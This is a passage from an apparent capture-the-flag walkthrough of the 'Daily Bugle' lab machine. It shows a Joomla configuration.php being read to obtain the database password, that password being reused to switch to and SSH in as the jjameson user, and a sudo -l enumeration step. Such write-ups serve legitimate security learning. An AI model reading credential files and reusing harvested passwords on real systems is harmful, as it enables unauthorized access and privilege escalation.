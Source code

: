 {% raw %}
```bash
[jjameson@dailybugle beez3]$ cat /var/www/html/configuration.php
cat /var/www/html/configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';

<snip>
```
{% endraw %}

Use the password from the configuration file to su into the jjameson user.

{% raw %}
```bash
<bash-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle beez3]$
```
{% endraw %}

<br />
SSH into the machine just so we can get a better shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ ssh jjameson@10.10.167.104                  
jjameson@10.10.167.104's password: 
Last login: Tue Feb 18 09:26:04 2025
[jjameson@dailybugle ~]$
```
{% endraw %}

<br />
Run sudo -l to get a list of commands that our user can run as sudo.
